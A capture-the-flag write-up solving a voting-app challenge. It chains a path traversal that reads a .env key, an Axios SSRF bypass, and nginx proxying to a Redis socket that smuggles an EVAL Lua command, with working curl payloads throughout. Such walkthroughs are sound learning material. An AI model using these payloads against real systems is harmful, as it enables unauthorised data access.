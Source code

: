 # Week 3 - Following Protocol
For this challenge, we're provided with the source code to a voting web app and asked to find out who the user "wbc" has voted for. The source contains a Docker compose file and several different apps, tied together with a front end Node app that we're given the URL for.
### Examining the Source
Inside the `restore.sh` file for the redis container we can see our target data, a redis field for the wbc user with a `certifier`, which is redacted, and `voted_for` data. Looking at the code for the `python-backend`, we can see that the `voted_for` is encrypted before being stored, and the `certifier` forms part of the encryption key for the data. So our objective is to obtain the `certifier` and the `base_key` value to obtain the encryption key for the `voted_for` data. To interact with these backend services, we need to use the `/api/*` endpoint in the front end Node application. We can direct requests to different services using the `v1`, `v2`, and `img` prefixes.
### Obtaining the Certifier and Base Key
This part should be fairly simple. The Python backend app on the `v2` service ha a `/certificate` endpoint that allows us to obtain a PDF file containing the certifier for any user. A simple request to this endpoint should be all that's needed for this step.
```bash
dot@stuff:~$ curl http://192.168.1.1:8000/api/v2/certificate -H "Content-Type: application/x-www-form-urlencoded" -d "name=wbc" > wbc_certifier.pdf
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2226  100  2218  100     8  21137     76 --:--:-- --:--:-- --:--:-- 21403
```
If we open up our PDF we find that we now have the "Certification Code" for our wbc user. Next is our base key. If we look at the certificate endpoint again, you might notice that the name provided is used for the output path with no validation or traversal detection. In the Dockerfile for the Python backend, we can see that the base key is stored in the `/app/.env` filepath. We can use this information to obtain the key from that file.
```
dot@stuff:~$ curl http://192.168.1.1:8000/api/v2/certificate -H "Content-Type: application/x-www-form-urlencoded" -d "name=../.env"                
ENCRYPTION_KEY=66616b656b6579736f727279
```
Though the application tries to write a PDF to that path, there's a check to catch if the file already exists, preventing the app from producing an error.
### ~~Decrypting~~ Finding the Data
Now we have our full decryption key, we can decrypt the data in the `restore.sh` by reversing the encryption function in the Python backend.
```python
import base64
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend

encrypted_vote = base64.b64decode('dGhpc2hhc2JlZW5yZWRhY3RlZGZvcnlvdSxnb2ZpbmR0aGVyZWFsdmFsdWVub3ch')
certifier = 'Ak4gHIGV'
base_key = '66616b656b6579736f727279'

def decrypt_value(key: bytes, value: bytes) -> bytes:
    backend = default_backend()
    iv = value[:16]
    data = value[16:]
    cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=backend)
    decryptor = cipher.decryptor()
    return decryptor.update(data) + decryptor.finalize()

key = (certifier + base_key).encode()
print(decrypt_value(key, encrypted_vote).decode())
```
Oh dear, that didn't work. If we actually decode the Base64 we've been given into text we can see that there's a bit more to this challenge yet. ```
```
dot@stuff:~$ base64 -D
dGhpc2hhc2JlZW5yZWRhY3RlZGZvcnlvdSxnb2ZpbmR0aGVyZWFsdmFsdWVub3ch
thishasbeenredactedforyou,gofindtherealvaluenow!
```
So our final task is to obtain the `voted_for` data from the redis server.
### Talking to Redis
To have any chance of fetching the data out, we need to find a way to talk to the redis server. None of our backend servers offer functions to fetch the `voted_for`, with the only reads performed being the `certifier` for the certificate endpoint, and the `img:*` keys in the nginx config. Calls to the image API must contain only digits otherwise we're given a 404 so this is unlikely to be of any help. Helpfully, the nginx `proxy_pass` setting is configured in a way where we can take advantage and modify the recieving location to wherever we like. On the node front end, the `allowAbsoluteUrls` setting on the Axios client has been set to false, which normally would prevent us from overriding the base URL. In this case however, the app is using Axios version 1.8.1, which contains a [vulnerability causing this setting to be ignored](https://github.com/axios/axios/issues/6806). This allows us to craft our own URL strings to send to the nginx backend. The redis server has been setup to disable TCP connections, but the socket is available and has been mounted to the nginx container for the image API. nginx does allow connections to Unix sockets via the `proxy_pass` setting, so this is what we'll use to talk to redis. To connect to the socket our URL will look like this:
```
dot@stuff:~$ curl -X HGET http://192.168.1.1:8000/api/test/http://nginx/unix:%2Fredis%2Fredis.sock:wbc%20voted_for
Request failed with status code 502
```
Unfortunately it's going to be slightly more complicated than this. There's two things we have to deal with when creating our call. The first is the extra data at the end of the URL, the `.backend.wbc/$2` part of the `proxy_pass` config. The second is a security feature in redis.
### Crafting a Payload
This is where we need to get a little bit creative. While we can connect to redis using nginx, we're unable to read a response as we will always receive a 502 error. If you launch a local version of the challenge and look at the redis logs you'll see the following message:
```
Possible SECURITY ATTACK detected. It looks like somebody is sending POST or Host: commands to Redis. This is likely due to an attacker attempting to use Cross Protocol Scripting to compromise your Redis instance. Connection aborted.`
```
Cross Protocol Scripting is exactly what we're trying to do here. While we can modify the HTTP call to use a verb other than `POST`, we can't stop nginx from sending the `Host` header, so redis will detect this and close the connection. This causes nginx to return the 502 response. While there may be a method to manipulate the redis output so nginx returns a successful response, I decided to use a different method. Before detecting the host header, redis will execute the command given on the initial line containing our HTTP verb and path. We also have an endpoint where we have some limited control over the key we fetch from redis, that being the image service. So our goal is to: fetch the data from the `wbc voted_for` key, and store it in an `img:*` key for us to fetch. We can do this using the `EVAL` command in redis, which executes a lua script in a sandboxed environment. Our lua script will look like this:
```lua
local b = redis.call('hget', 'wbc', 'voted_for'); 
redis.call('set', 'img:678', b);
```
We also need to deal with the `.backend.wbc/$2` part of our URL, as well as the HTTP version suffix of the request. The `EVAL` command requires you to specify the number of arguments you are providing for the script, and although we haven't used any arguments, we can still tell redis that these two pieces are arguments for our script, completing our payload and executing our command. We also need to add a trailing slash to the URL to ensure we're matching the nginx location regex.
```
dot@stuff:~$ curl -X EVAL http://192.168.1.1:8000/api/test/http://nginx/unix:%2Fredis%2Fredis.sock:%22local%20b%20%3D%20redis.call%28%27hget%27%2C%20%27wbc%27%2C%20%27voted_for%27%29%3B%20redis.call%28%27set%27%2C%20%27img%3A678%27%2C%20b%29%3B%22%202%20/
Request failed with status code 502
```
This is the command redis will receive from nginx as a result of this this request.
```redis
EVAL "local b = redis.call('hget', 'wbc', 'voted_for'); redis.call('set', 'img:678', b);" 2 .backend.wbc/ HTTP/1.0
```
Finally we need to grab the data from our chosen image key.
```
dot@stuff:~$ curl http://192.168.1.1:8000/api/img/678
Y3lzZWF7dGhpc2lzbid0dGhlcmVhbGRhdGFlaXRoZXJzb3JyeSF9
```
 Now we just need to use this data in our previous decryption script and get the flag!